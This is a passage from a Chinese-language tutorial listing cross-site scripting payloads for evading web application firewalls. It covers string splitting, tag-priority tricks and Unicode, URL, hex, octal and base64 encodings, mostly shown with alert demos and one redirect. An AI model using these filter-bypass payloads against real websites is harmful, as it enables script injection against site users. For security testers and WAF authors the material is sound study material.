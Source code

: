 利用top

```xml
<script>top["al"+"ert"](`xss`);</script>
```

### 其它字符混淆

有的waf可能是用正则表达式去检测是否有xss攻击，如果我们能fuzz出正则的规则，则我们就可以使用其它字符去混淆我们注入的代码了  
下面举几个简单的例子

```php-template
可利用注释、标签的优先级等
1.<<script>alert("xss");//<</script>
2.<title><img src=</title>><img src=x onerror="alert(`xss`);"> //因为title标签的优先级比img的高，所以会先闭合title，从而导致前面的img标签无效
3.<SCRIPT>var a="\\";alert("xss");//";</SCRIPT>
```

### 编码绕过

Unicode编码绕过

`<img src="x" onerror="&#97;&#108;&#101;&#114;&#116;&#40;&#34;&#120;&#115;&#115;&#34;&#41;&#59;">`

`<img src="x" onerror="eval('\u0061\u006c\u0065\u0072\u0074\u0028\u0022\u0078\u0073\u0073\u0022\u0029\u003b')">`

url编码绕过

`<img src="x" onerror="eval(unescape('%61%6c%65%72%74%28%22%78%73%73%22%29%3b'))">`

```perl
<iframe src="data:text/html,%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E"></iframe>
```

Ascii码绕过

`<img src="x" onerror="eval(String.fromCharCode(97,108,101,114,116,40,34,120,115,115,34,41,59))">`

hex绕过

```xml
<img src=x onerror=eval('\x61\x6c\x65\x72\x74\x28\x27\x78\x73\x73\x27\x29')>
```

八进制

```xml
<img src=x onerror=alert('\170\163\163')>
```

base64绕过

```xml
<img src="x" onerror="eval(atob('ZG9jdW1lbnQubG9jYXRpb249J2h0dHA6Ly93d3cuYmFpZHUuY29tJw=='))">
```

```xml
<iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgneHNzJyk8L3NjcmlwdD4=">
```

